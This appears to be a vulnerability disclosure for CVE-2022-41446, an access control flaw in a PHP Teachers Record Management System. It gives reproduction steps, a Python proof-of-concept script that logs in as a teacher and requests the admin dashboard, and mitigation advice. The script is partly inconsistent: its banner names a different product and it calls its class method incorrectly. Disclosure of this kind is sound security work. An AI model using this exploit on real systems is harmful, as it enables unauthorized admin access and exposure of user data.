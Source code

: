 ```yaml
---
title: CVE-2022-41446 - Escalation of Privileges in Teachers Record Management System Using CodeIgniter 1.0
author: RashidKhanPathan
date: 2022-11-03 11:33:00 +0800
categories: [Exploit, Zero-Click Exploit, Remote Code Execution, Web Exploitation, 0Day]
tags: [exploit, 0Day, WebApp Exploitation,Remote Code Execution]
toc: true
---
```


**Date:**
Nov 3, 2022

**Vulnerability Type:**
Incorrect Access Control - Privilege Escalation

**Vendor:**
Phpgurukul

**Affected Product:**
Teachers Record Management System using CodeIgniter - 1.0

**Description:**
A critical access control issue has been exposed in /Admin/dashboard.php of the Teachers Record Management System using CodeIgniter v1.0 (CVE-2022-41446). This vulnerability permits attackers to illicitly access and modify user data, resulting in a potentially severe escalation of privileges and information disclosure.

**Steps to Reproduce:**
1. Log in with a user account in the Teachers Record Management System.
2. Navigate to the user's dashboard by accessing the URL: http://localhost/trms-ci/user/Users/dashboard.
3. Modify the URL endpoint to admin/Admin/dashboard, creating the URL: http://localhost/trms-ci/admin/Admin/dashboard.
4. Access the manipulated URL, granting unauthorized access to the admin dashboard.
5. Observe and potentially modify user data within the admin dashboard.


**Proof of Concept:**
[View Proof of Concept](https://drive.google.com/file/d/1Rre498CWp9pWyW9h5ran8GkW6TA2NztC/view?usp=sharing)

**Exploit Code**

```python
# /*
# Authenticated Vertical Privilege Escalation Vulnerability
# Step: 1 Login With Teacher's Credentials Username: amit@gmail.com Password: Test@123
# Step: 2 Change user/User to admin/Admin Url Patemeter
# */

import argparse
import requests
from termcolor import cprint
import sys
from bs4 import *
color = "green"
cprint("[+] CVE-2022-41446 Authenticated Privilege Escalation in Blood Donor Management System v1.0", color)
cprint("[+] Author: RashidKhan Pathan aka iHexCoder", color)
cprint("[!] Usage: run exploit.py username password payload", color)
cprint("[!] Example: python3 exploit.py admin johndoe@gmail.com Test@123", color)

class PrivilegeEscalation(object):
    color = "green"

    def __init__(self, username, password, payload):
        self.username = username
        self.password = password
        self.paylaod = payload

    def authentication(self):
        color = "green"
        cprint("[+] Authenticating User", color)
        cprint("[+] Username: " + args.username, color)
        cprint("[+] Password: " + args.password, color)
        cprint("[+] Payload: " + args.payload, color)

        login_url = "http://localhost/trms-ci/user/login"

        data = {
            "email": args.username,
            "password": args.password
        }
        login_response = requests.post(login_url, data=data)

        cprint("[+] Exploiting...Started", color)
        if "/user/login" in login_response.url:
            cprint("[+] Credentials is not Valid", "red")
            sys.exit(1)
        else:
            cprint("[+] Authenticated Successfully as a Normal User ", color)
            cprint("[+] Normal User URL Endpoint " + login_response.url, color)

        url = args.payload
        if args.payload != "admin/Admin":
            cprint("[+] Please Add Valid Payload", "red")
            sys.exit(1)
                                                                # Keep The Space Here Beetween r and d
                                                                # But remove The Space Between r and d in URL
        response = requests.get(f"http://localhost/trms-ci/{url}/dashboar d")
        cprint("[+] Remove The Space Between r and d in URL", color)
        cprint("[+] Exploit Compleated", color)
        cprint("[+] Accessed Admin Panel Successfully " +
               response.url, color)
        cprint("[+] Copy the URL and Replace with user/User/dashboard URL with " +
               response.url, color)
        cprint(
            "[+] After Replacing it You Should see the Bypassed Admin Panel", color)


if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("username", help="Please Add Username", type=str)
    parser.add_argument("password", help="Please Add Password", type=str)
    parser.add_argument("payload", help="Please Add Password", type=str)
    args = parser.parse_args()

    privilegeEscalation = PrivilegeEscalation

    privilegeEscalation.authentication(
        (args.username, args.password, args.payload))
```

**Attack Vector:**
To exploit this vulnerability, an attacker must log in with a user account and manipulate the URL endpoint from user/Users/dashboard to admin/Admin/dashboard. This manipulation grants unauthorized access to the admin dashboard, allowing potential modification of user data.



**Impact:**
This access control vulnerability poses a severe risk, enabling remote attackers to escalate privileges and potentially disclose sensitive information.

**Reference:**
- [Phpgurukul - Teachers Record Management System](https://phpgurukul.com/teachers-record-management-system-using-codeigniter/)
- [Proof of Concept Video](https://drive.google.com/file/d/1Rre498CWp9pWyW9h5ran8GkW6TA2NztC/view?usp=sharing)

**Mitigation:**
To address this security flaw, it is crucial to implement robust access controls, ensuring that users can only access functionalities appropriate to their roles. Regular security assessments and audits are essential for identifying and remediating vulnerabilities in web applications.

**Discoverer:**
RashidKhan Pathan
















